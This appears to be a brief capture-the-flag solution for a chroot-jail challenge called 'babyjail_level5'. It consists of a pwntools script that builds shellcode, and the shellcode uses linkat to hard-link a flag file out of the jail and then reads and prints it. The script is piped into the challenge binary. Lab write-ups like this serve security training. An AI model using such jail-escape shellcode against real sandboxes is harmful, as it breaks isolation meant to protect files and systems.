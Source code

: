 linkat man says:   
```
man linkat
```
the scripts:   
```
from pwn import *
context(log_level = 'info', arch = 'amd64', os = 'linux')
shellcode=shellcraft.linkat(3, "../../flag", 4, "/flaga")
shellcode+=shellcraft.open("/flaga")
shellcode+=shellcraft.read(4, 0x13373e8, 0x100)
shellcode+=shellcraft.write(1, 0x13373e8, 0x100)
shellcode=asm(shellcode)
sys.stdout.buffer.write(shellcode)
```
python3 resolve.py | /challenge/babyjail_level5 /home/hacker
